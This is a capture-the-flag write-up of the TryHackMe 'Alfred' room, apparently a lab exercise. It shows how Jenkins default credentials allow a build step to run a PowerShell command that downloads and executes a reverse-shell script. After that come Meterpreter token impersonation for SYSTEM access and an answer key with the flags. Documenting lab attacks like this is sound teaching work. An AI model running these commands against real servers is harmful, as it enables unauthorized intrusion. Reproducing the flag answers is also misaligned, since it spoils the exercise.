 ```yaml
---
- **Title:** Alfred
- **Description: In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made change to it). After which, we'll use an interesting privilege escalation method to get full system access.
- **IP Address:** 10.10.1.114
- **Setup:**
```bash
		export IP=10.10.1.114
```
---
```





![alfred-header.png](./Images/alfred-header.png)

# Initial Access
- Run nmap agains the IP to explore the ports and services and output to a file named 10.10.1.114-nmap-scan

```bash
	nmap -A -Pn $IP >> $IP-nmap-scan
```

![nmap-scan.png](./Images/nmap-scan.png)

- As the nmap scan shows, Jenskin is running on port 8080 of this target machine. 

![jenskin.png](./Images/jenskin.png)

Trying default credentials admin || admin, I was able to log in. Once logged, I could see that there was only 1 project named "project". Clicking the link took me to the following page.

![project-dashboard](./Images/project-dashboard.png)

- Exploring the cofiguration of the project, I saw that everytime the job is run, Windows batch commands were executed.

![build-configuration](./Images/build-configuration.png)

* Now I need to deliever a payload and get a revershell through this configuration. According to the instuctions of TryHackMe, we need to download the [Invoke-PowerShellTcp.ps1]("https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1") to our attacking machine. From the directory where the file is located, create a server:

```bash
python -m http.server 8000
```

In the "Execute Windows batach command" from Jenskin, paste the follow command:

```shell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port

```

- Save the configuration. 

- On attacking machine, run a netcat listener:  

```bash 
nc -lnvp 5555
```

- On Jenskin, click "Build Now" link to start the project. Now we'll get a reverse shell:

![reverse-shell](./Images/reverse-shell.png)

Poking around the target machine, we can easily find the user flag:

![user-text-flag](./Images/user-text-flag.png)

Following instruction on TryHackMe, we can easily switch to a more stable shell.

![stable-shell](./Images/stable-shell.png)

# Privilege Escalation

- Run ```list_tokens -g```  to check which token is available

![list-tokens](./Images/list-tokens.png)

- Run ```impersonate_token "BUILTIN\Administrators"```. Then run ```
getuid``` , we get the following result:

![impersonate-tokens](./Images/impersonate-token.png)

- Running ```ps``` command, we'll learn PID of services.exe is 668. Migrate the process to elevate prilvilege:

```shell
migrate 668
```

![migrate-services](./Images/migrate-services.png)
- Now we can view root.txt

<details>
    <summary> Answer </summary>
	
-   How many ports are open? (TCP only)  <br>
		-> 3 <br>
	
-   What is the username and password for the log in panel(in the format username:password) <br>
		-> admin:admin <br>
	
- What is the user.txt flag? <br>
		-> 79007a09481963edf2e1321abd9ae2a0<br>
	
-   What is the final size of the exe payload that you generated?? <br>
		-> 73802<br>
	
- What is the output when you run the _getuid_ command?<br>
		-> NT AUTHORITY\SYSTEM<br>
	
-  Read the root.txt file at C:\Windows\System32\config <br>
		-> ��dff0f748678f280250f25a45b8046b4a<br>
	
</details>